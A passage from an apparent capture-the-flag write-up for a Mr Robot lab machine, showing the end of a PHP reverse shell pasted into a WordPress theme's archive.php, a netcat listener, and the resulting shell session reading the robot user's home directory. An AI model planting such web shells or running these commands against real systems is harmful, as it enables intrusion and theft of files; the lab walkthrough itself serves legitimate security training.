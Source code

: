``` php
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![Theme edit](/assets/img/images/thm_mr_robot_ctf_writeup/H1eDtFEya.png)

We put a nc listener with the port 6870

``` bash
nc -lnvp 6870
```

We can access to the archive.php with the URL https://10.10.150.113/wp-content/themes/twentyfifteen/archive.php so we can get the reverse shell:

``` bash
nc -lnvp 6870        
listening on [any] 6870 ...
connect to [10.11.24.118] from (UNKNOWN) [10.10.150.113] 60344
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 14:18:12 up  2:05,  0 users,  load average: 5.94, 5.60, 4.80
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ ls /home
robot
$ ls /home/robot
key-2-of-3.txt
password.raw-md5
$ cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied

```